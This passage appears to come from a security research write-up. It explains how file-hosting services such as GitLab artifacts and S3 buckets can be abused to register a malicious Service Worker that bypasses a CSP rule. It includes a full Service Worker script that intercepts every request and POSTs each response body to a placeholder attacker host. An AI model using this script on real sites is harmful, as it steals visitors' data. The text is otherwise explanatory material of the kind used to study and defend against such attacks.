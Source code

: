   ![](./gitlab5.jpg)

Currently, this doesn't work because GitLab returns artifacts with `Content-Type: text/plain`, because `Content-Type: text/javascript`  leading to a bypass of the CSP rule `script-src: self`. The registration of the Service Worker checks the Content-Type for valid JS Mime-Type.

Therefore, any resource that implements file upload/download functionality without rewriting the regular Mime-Type of the file is vulnerable.
# S3 buckets

Another good example is S3 buckets.

Amazon S3 (Simple Storage Service) is a cloud storage service provided by Amazon Web Services (AWS). S3 buckets are containers for storing files or data objects within Amazon S3.

By default, S3 buckets expose the Mime-Type based on the file extension during download.
In general, Register a service worker on a domain with an S3 bucket:
```javascript
    async function handleRequest(event) {
      const attacker_url  = "https://attacker.net?e=";
      
      let response = await fetch(event.request.url)

      let response_copy = response.clone();
      
      let sniffed_data = {url: event.request.url, data: await response.text()}

      fetch(
          attacker_url,
          {
              body: JSON.stringify(sniffed_data), 
              mode: 'no-cors', 
              method: 'POST'
          }
      )
    
      return new Response(await response_copy.blob(),{status:200})
    }
    

  self.addEventListener("fetch",async (event) => {
      event.respondWith(handleRequest(event));    
  });
  ```
